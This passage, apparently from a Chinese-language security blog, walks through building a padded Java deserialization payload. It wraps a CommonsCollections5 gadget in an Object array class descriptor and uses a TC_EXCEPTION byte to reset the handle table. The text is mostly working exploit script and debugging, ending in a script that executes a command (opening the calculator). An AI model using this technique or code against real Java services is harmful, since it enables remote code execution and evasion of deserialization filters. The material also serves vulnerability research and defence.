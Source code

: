 数组长度是一个int，占4个字节，使用大端存储，测试时可以暂时使用b"\x00\x00\x00\x02"。  
  
编写脚本：  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
dirtyData += "\x75"// TC_ARRAY
dirtyData += string(descSer[4:]) // 去掉magic header
dirtyData += "\x00\x00\x00\x02" // 数组长度是2
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
  
在验证payload时发现报错：  
  
Exception in thread "main" java.lang.ClassCastException: java.io.ObjectStreamClass cannot be cast to java.lang.String  
  
出现错误的位置在读取REFERENCE处，对读取到的handle强转为String出错。  
```
case TC_REFERENCE:
    return (String) readHandle(false);
```  
  
怀疑是因为加了classdesc导致handle table错乱了，断点调试下发现本应取到6号元素，但取到了5号元素。  
  
![](/articles/wechat2md-3aa5535ba156cacaaac74083bd0b3b6b.png)  
  
在前面介绍TC_RESET时提到过，TC_RESET作用是清空handle table，所以可以在gadget前加一个TC_RESET  
  
但又出错了，因为handleReset验证了层数，也就是gadget必须在第一层：  
```
private void handleReset() throws StreamCorruptedException {
    if (depth > 0) {
        throw new StreamCorruptedException(
            "unexpected reset; recursion depth: " + depth);
    }
    clear();
}
```  
  
通过查找clear函数，发现在readFatalException时先调用了clear，再readObject0，刚好符合条件。所以可以在Gadget前加一个TC_EXCEPTION，将Gadget作为Exception解析，在解析前会清空handle table，最后脚本如下，成功弹计算器。  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~

serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
dirtyData += "\x75"// TC_ARRAY
dirtyData += string(descSer[4:]) // 去掉magic header
dirtyData += "\x00\x00\x00\x02" // 数组长度是2
dirtyData += "\x7B"
res = string(payload[:4]) + dirtyData+ string(payload[4:])
println(codec.EncodeBase64(res))
```  
  